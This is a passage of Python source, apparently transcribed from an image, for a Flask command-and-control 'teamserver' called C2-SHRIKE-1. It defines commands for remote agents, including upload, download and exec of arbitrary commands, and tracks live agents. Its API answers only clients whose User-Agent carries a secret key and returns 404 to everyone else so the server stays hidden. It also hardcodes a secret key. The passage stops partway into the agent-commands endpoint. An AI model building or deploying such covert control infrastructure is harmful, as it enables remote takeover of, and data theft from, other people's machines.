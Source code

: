 ```py
for line in lines:
    command_list.append(line.strip())

available_commands = ['id', 'whoami', 'upload [Usage: upload server_source agent_dest]', 'download [usage download agent_source server_dest]', 'exec [Usage: exec command_to_run]', 'pwd', "get_hostname"]

live_agents = {}

app = flask.Flask(__name__)
app.secret_key = "000011112222333344445555666677778888"

logging.basicConfig(filename='teamserver.log', level=logging.DEBUG)


def is_user_agent_keyed(user_agent):
    return HEADER_KEY in user_agent


def json_response(app, data):
    try:
        return app.response_class(
            response=json.dumps(data),
            status=200,
            mimetype='application/json'
        )
    except Exception as e:
        return str(e)


def is_command_reset_flag_set(command_stack_reset_flag):
    return command_stack_reset_flag


@app.route("/")
def hello_world():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        return "."
    else:
        abort(404)


@app.route('/api/server', methods=['GET'])
def get_server_info():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        server_info = {"guid": "9e29fc5d-31dc-4fc2-9318-d17b2694d8aa", "name": "C2-SHRIKE-1"}
        return json_response(app, server_info)
    else:
        abort(404)

@app.route('/api/agents', methods=['GET'])
def get_agent_info():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if live_agents:
            return str(live_agents), 200
        else:
            return "No live agents", 200
    else:
        abort(404)


@app.route(f'/api/agents/commands', methods=['GET'])
def get_agent_commands():
```